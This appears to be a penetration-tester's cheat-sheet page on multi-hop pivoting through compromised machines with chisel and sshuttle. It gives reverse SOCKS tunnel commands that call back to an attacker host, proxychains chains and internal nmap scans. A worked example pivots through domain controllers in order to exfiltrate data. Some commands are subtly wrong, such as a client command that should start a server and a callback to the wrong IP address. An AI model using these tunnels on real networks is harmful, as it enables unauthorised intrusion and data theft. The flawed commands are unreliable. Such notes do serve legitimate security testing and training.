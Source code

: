 # Multiple pivoting

{% tabs %}
{% tab title="Double pivoting" %}
## sshuttle + chisel

```bash
		ATTACKER (10.13.22.243) -------------------| 
																				    	 | # sshuttle
|---HOST1 (192.168.1.24/24 - 172.16.20.2/24) <--
| # chisel to proxy some ports
--->HOST2 (172.16.20.4/24 - 10.10.10.100)
```
{% endtab %}

{% tab title="Multiple pivoting" %}
## Only with chisel

### Double pivoting

```bash
# Run command on attacker machine:
./chisel server -p 5555 --reverse

# Run both commands on compromised machine (1):
./chisel client <ATTACKER_IP>:5555 R:1080:socks
./chisel server -p 5556 --reverse

# Run command on compromised machine (2):
chisel.exe client <IP_1_COMPROMISED>:5556 R:2080:socks

# Proxychains configuration:
socks5 127.0.0.1 1080
socks5 127.0.0.1 2080
```

### Triple pivoting

```bash
# Run command on attacker machine:
./chisel server -p 5555 --reverse

# Run both commands on compromised machine (1):
./chisel client <ATTACKER_IP>:5555 R:1080:socks
./chisel server -p 5556 --reverse

# Run both commands on compromised machine (2):
chisel.exe client <IP_1_COMPROMISED>:5556 R:2080:socks
chisel.exe client -p 5557 --reverse

# Run command on compromised machine (3):
chisel.exe client <IP_2_COMPROMISED>:5557 R:3080:socks

# Proxychains configuration:
socks5 127.0.0.1 1080
socks5 127.0.0.1 2080
socks5 127.0.0.1 3080
```

### Practical example

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

Below is a simulated network that I have drawn up to help understand things a bit more visually as I set though setting up or proxy tunnels:

![](../../.gitbook/assets/network\_pivoting\_chisel.png)

Lets assume that we have intel that there is a computer on the Admin network and we need to gain access to it so we can being to exfil data from it. Our attacker machine is `10.10.101.51` and there is a web server that is internet facing and we can use that machine to get onto the network. The Web Server has an IP of `10.10.101.50`. Lets assume that you have a foothold or even root/admin on the web server and you want begin to do recon of the internal network. There are a ton of ways to go about doing this. The easiest way is to just transfer a tool such as nmap directly on the machine we have access to and scan the internal network. Another way is to use a dynamic ssh tunnel utilizing socks4 if available of course and use proxychains and nmap to yield results, but this is slow. If you have access to Cobalt Strike then you can also use a beacon to setup proxy to pivot through that too. But the main focus of this post is to understand how to properly pivot without those other methods and use chisel instead.

First we need to start a chisel server running on port 8001 our machine so we can pivot through the `10.10.101.50` machine and gain access to the network. Run the command below to start a server:

```bash
# Run command on attacker machine (10.10.101.51)
./chisel server -p 8001 --reverse
```

Assuming we have a foothold on the Web Server we can transfer chisel to the machine and connect back to our chisel server to complete the tunnel.

```bash
# Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel client 10.10.101.50:8001 R:1080:socks
```

This will create a reverse proxy and open port 1080 on our machine. Now we can modify our proxychains.conf file to use this proxy. At the bottom of the `/etc/proxychains.conf` add `socks5 127.0.0.1 1080`. Now that we have this working we can use this to conduct a simple nmap of the internal network.

```bash
# Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
proxychains4 nmap 172.16.1.1/24
```

Now that we have gathered all the info about our current subnet and gained access to all the computers including the domain controller we now want to pivot into the second subnet. We are assuming that the domain controller on the Office Network has a trust with the Admin Network. To begin our next pivot we need to transfer chisel to the Windows domain controller to we can make the next pivot. Then we need to go to our Web Server that we are currently using to pivot onto the Office Network and start up a server in addition to our already running client connection command we ran above.

```bash
# Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel server -p 8002 --reverse
```

Then on the domain controller in the office network we want create a new connection that will connect to the chisel server running on 172.16.1.101 on port 8002

```bash
# Run command on Office Domain Controller machine (172.16.1.5)
chisel.exe client 172.16.1.101:8002 R:2080:socks
```

Finally we now want to add this new connection in our `proxychains.conf` which will look like something below.

```
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
```

Our connection should now now be

![](../../.gitbook/assets/network\_pivoting\_chisel2.png)

Now that we can tunnel through the domain controller we can do some more recon and find the IP of the domain controller of the Admin network. Now that we know the IP of the DC in Admin network is `172.16.2.10` we can attack this machine. Lets assume that we now have access to the domain controller in the Admin network. We now want to pivot again from the Office network DC to the Admin network DC so we can recon and eventually gain access to our target computer on the Admin network (`172.16.2.200`). First we want to create a server on the Office DC

```bash
# Run command on Office Domain Controller machine (172.16.1.5 )
chisel.exe server -p 8003 --reverse
```

Then on the Admin DC we want to run the following command to connect back to our domain controller.

```bash
# Run command on Admin Domain Controller machine (172.16.2.5)
chisel.exe client 172.16.1.5:8003 R:3080:socks
```

Finally we want to add a third entry into our `proxychains.conf`

```bash
socks5 127.0.0.1 1080
socks5 127.0.0.1 2080
socks5 127.0.0.1 3080
```

We have now successfully pivoted three times to get to our target goal which is to have access to the target computer on the admin network. The proxy connections should look something like below. Since we own the domain controller we can now use this to gain access to login to the machine at `172.16.2.200`

![](../../.gitbook/assets/network\_pivoting\_chisel3.png)
{% endtab %}
{% endtabs %}

